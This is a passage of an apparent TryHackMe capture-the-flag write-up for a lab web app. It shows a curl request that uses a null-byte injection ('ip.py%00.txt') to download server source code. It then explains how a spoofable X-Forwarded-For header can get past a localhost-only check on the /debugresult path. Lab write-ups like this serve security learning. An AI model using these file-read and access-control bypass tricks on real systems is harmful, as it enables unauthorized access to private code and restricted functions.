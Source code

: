 ![Untitled](/assets/Super%20Secret%20Tip%20images/Untitled%205.png)

OK, now the result is stored in the `/debugresult` path. However, the access was restricted by the IP address:

```python
if not ip.checkIP(request):
    return abort(401, "Everything made in home, we don't like intruders.")
```

From here, I need to get the content of the `ip` function where it was imported from the same local directory:

```python
import ip # from .
```

Use the same previous method and I get the logic:

```
┌──(kali㉿kali)-[~/TryHackMe/supersecrettip]
└─$ curl http://supersecrettip.thm:7777/cloud -X POST -d "download=ip.py%00.txt"
host_ip = "127.0.0.1"
def checkIP(req):
    try:
        return req.headers.getlist("X-Forwarded-For")[0] == host_ip
    except:
        return req.remote_addr == host_ip
```

It checked for the `X-Forwarded-For` if it exists in the header of the request or not. If not, it would take the remote address attribute to compare with the `host_ip` variable which is “**127.0.0.1**”.
